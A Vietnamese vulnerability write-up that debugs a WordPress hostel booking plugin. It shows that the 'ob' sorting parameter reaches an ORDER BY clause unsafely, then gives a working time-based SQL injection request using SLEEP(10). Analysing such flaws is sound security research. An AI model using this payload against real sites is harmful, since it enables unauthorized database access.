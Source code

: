 **Debugging**

- Chức năng bị lỗi nằm trong **Booking Manager**, vì vậy ta truy cập vào submenu `Manager Bookings` trên UI Admin Dashboard.
- Ngay trước nhánh default có comment `// list bookings` => cho thấy đoạn code này xử lý việc **liệt kê và sắp xếp bookings**
- Mở debugger:
    - Click <kbd>Run with Debugger</kbd>.
    - Đặt **breakpoint** tại **nhánh switch chứa code lỗi** và **tại dòng code gây lỗi**.
- Khi click vào một cột trong bảng bookings, quan sát:
    - Debugger nhảy vào cấu trúc `switch`.
    - Dùng **Step Over**, debugger đi tiếp vào nhánh `default`.
    - Tiếp tục **Step Over** và theo dõi giá trị biến trong tab `Variables > Locals`. Các biến này sẽ kết hợp để tạo thành câu SQL bên dưới.

Sau khi ghép các biến, câu query đầy đủ có dạng:

```sql
SELECT SQL_CALC_FOUND_ROWS tB.*, tR.title as room 
FROM wp_hostel_bookings tB 
JOIN wp_hostel_rooms tR ON tR.id = tB.room_id 
WHERE is_static=0 AND tB.id = ... 
ORDER BY tB.amount_paid ASC|DESC 
LIMIT ...
```

Đáng chú ý, biến `$orderby` được gán như sau:

```php
if(!empty($_GET['ob'])) {					
    $orderby = "ORDER BY ".sanitize_text_field($_GET['ob']) . ' ' . $dir;
}
```

⚠️ Ở đây có điểm bất thường:
- Phần sau `ORDER BY` sử dụng `sanitize_text_field()`.
- Hàm này chỉ **loại bỏ/escape HTML**, không hề filter hoặc validate để đảm bảo an toàn trong **SQL context**.
- Tham số `ob` (do người dùng truyền vào) vì vậy có thể bị lợi dụng để **chèn trực tiếp vào câu SQL**.

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```
Ta tách mệnh đề `ORDER BY` bằng `,` vì nó chấp nhập **multi column**

![time response](time_response.png "Time response")
